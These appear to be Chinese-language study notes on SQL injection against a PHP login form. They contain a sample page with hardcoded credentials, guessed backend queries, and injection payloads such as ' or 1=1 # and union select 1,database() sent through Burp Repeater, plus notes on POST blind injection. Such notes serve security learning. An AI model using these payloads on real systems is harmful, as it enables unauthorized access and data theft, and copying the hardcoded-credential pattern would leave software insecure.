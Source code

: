 <form action="" method="POST">
username:<input type="text" name="uname" /><br/>
password:<input type="password" name="upwd"/><br/>
<input type="submit" value="click me"/>

</form>

<?php

$name = $_POST['uname'];
$pwd = $_POST['upwd'];

if($name=="admin"&&$pwd=="123"){
    echo "success";
}else{
    echo "fail";
}


?>


</body>
</html>

-----------

猜测源码

uname=xxxxx&passwd=xxxxxx

$u = $_POST['uname'];
$p = $_POST['passwd'];

方法1：

select username,password from table1 where username='$u' and password='$p' limit 0,1;

select username,password from table1 where username=' ' or 1=1 # ' and password='123' limit 0,1;

select username,password from table1 where username=' ' or 1=1 

select username,password from table1 where username=' ' union select 1,2 #  ' and password='$p' limit 0,1;

方法2：
burp
抓包之后，send to repater

uname=' union select 1,database() #&passwd=123&submit=Submit

======================================================

post盲注

猜闭合方式

' or 1=1 #

用户名和密码都写!!!!
' or '1' = '1
